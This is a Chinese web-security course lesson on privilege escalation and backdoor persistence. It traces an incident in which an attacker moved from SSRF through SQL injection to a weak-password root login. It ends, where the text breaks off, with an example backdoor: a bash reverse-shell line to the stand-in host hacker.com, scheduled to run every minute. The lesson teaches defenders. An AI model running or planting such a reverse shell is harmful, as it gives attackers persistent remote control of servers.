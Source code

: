 你好，我是何为舟。

我在Web安全的前6讲中，给你讲解了各种漏洞的产生和防护方法，比如：XSS、SQL注入、CSRF、SSRF和插件漏洞。除了这些漏洞之外，我也着重强调了一点，黑客善于通过“蛛丝马迹”推断出代码逻辑，然后发起攻击。学习了这些内容，在实际工作的过程中，我们其实就能基本避免大部分的Web安全问题了。但是，有一天，我又遇到了新的问题。

某一天，当我在进行日常审计的时候，突然发现内网有黑客的操作痕迹。于是，我马上对黑客的攻击路径进行溯源。最后发现黑客是通过某个应用的SSRF漏洞进入的。

之前我们提到过，SSRF通常用来作内网探测，那么黑客是如何通过SSRF拿到服务器权限的呢？更神奇的是，这个存在SSRF漏洞的应用，在排查的时候早已经下线了。那么，黑客是如何在漏洞已经下线的情况下，仍然能够进出内网呢？

## 权限提升：为什么黑客能通过SSRF拿到服务器权限？

首先，我们先来搞清楚，黑客是如何通过SSRF拿到服务器权限的。在解决这个问题之前，我们先来了解一个概念，权限提升。

在应用或系统中，黑客或者被黑客控制的用户，通常会通过漏洞攻击或者利用弱密码，获取到其他用户的权限。在获取了新的用户权限之后，黑客就能够以新用户的身份去窃取和篡改数据，进行非法的操作了。这就是 **权限提升**（Privilege Escalation）。也就是说，黑客可以通过不断获取新的身份，来不断扩大（或者叫提升）自己的权限，不断扩大攻击影响，最终实现控制整个系统。

好了，现在你应该知道权限提升是什么了。事实上，权限提升还可以根据攻击效果分为两类，即水平提升和垂直提升。

**水平提升** 是指黑客获取了另外一个“平级”用户的权限。尽管权限等级没变，但因为黑客控制的用户身份发生了变更，所以黑客能够获得新的数据和权限。比如，常见的普通用户被盗号就是一种水平提升。黑客本来只能够登录自己的账号，但他却通过破解密码的方式，登录到其他用户的账号，从而可以查看他人的个人信息，利用他人账号进行交易转账。

相比较来说， **垂直提升** 的危害性更大。通过垂直越权，黑客能够获得一个更高级别的权限，通常来说，是应用的管理员或系统的ROOT权限。拥有高等级权限后，黑客自然就能够获取到大部分的数据了。除此之外，通过高等级的权限，黑客还能够禁用审计功能、删除相关日志，从而隐匿自己的行踪，让你无法发现攻击事件的存在。

前面我讲过，在我经历的这个事件中，黑客是利用 [SSRF](https://time.geekbang.org/column/article/182074) 漏洞进入的内网，那在了解权限提升的原理和分类之后，我们接着来分析一下，黑客是如何通过SSRF漏洞做到权限提升的。

首先，这个SSRF是有回显的，所有内网请求的响应都能够直接被黑客看到。所以，黑客利用.svn文件的信息泄露，一点一点请求内网的各种地址，最终获得了一台服务器上的代码。获得代码之后，黑客通过分析，知道这个服务器存在SQL注入漏洞。于是，黑客通过SQL注入，成功在这台服务器上执行了命令。然后，黑客就开始对内网进行SSH扫描，最终以用户名“root”和密码“123456”，成功获得了一台内网服务器的ROOT权限。

![](https://static001.geekbang.org/resource/image/3f/dc/3fb9787fed96a3e8393554b1883bdfdc.jpeg?wh=1920*1080)

事实上，几乎所有的漏洞和攻击（包括前面讲到的几个Web漏洞）都可能导致权限提升。总体来说，权限提升的方法可以分为下面这两种。

- 窃取身份：前面我们讲过，身份认证的相关风险和攻击包括：无认证、弱密钥、认证信息泄露和认证环节破解等。这些攻击的最终结果其实都一样，就是黑客成功登录了他人的账号，也就意味着权限提升的发生。
- 利用漏洞获得权限：从行业现状来说，对于补丁管理的工作普遍做得不到位，各种有漏洞的系统和插件仍在大量使用。因此，权限提升最普遍的方法还是利用漏洞获得权限。这其中，既包括已公开的漏洞，比如上节课中提到的“脏牛”，还包括很多资深黑客所掌握的“0 day”漏洞。

## 权限持久化：为什么漏洞修复了，还有“后门”？

好了，现在你已经知道了，黑客可以利用漏洞攻入应用，最终实现了权限提升，那我们修复了这个漏洞是不是就能避免权限提升的发生呢？当然不是，在开头的例子中，带有SSRF漏洞的应用也已经被下线了呀，那为什么黑客还是能够自由进出呢？下面，我就详细来说一说。

### 什么是“后门”？

想要解决这个问题，我们先要来看一下“后门”的概念。当黑客通过权限提升，成功获取到一个高级别的权限后，为了保留这个权限，黑客会在应用中留下一个隐藏的进程，下次只要黑客想再次进入，就可以通过这个进程来连通，而不需要再次去绕过各种安全流程。这就是“后门”。也就是说，“后门”能够让你在不经过正常流程的情况下，就直接获得一些权限。

在我前面讲的例子中，黑客就是在攻进系统后，给自己留下了一个“后门”，开辟了一条非正规的快速通道。那黑客是怎么操作的呢？

比如说，黑客在进入服务器之后，会留下下面这样一个脚本，让这个脚本，每分钟都执行一次：

```
bash -i >& /dev/tcp/hacker.com/8080 0>&1

```
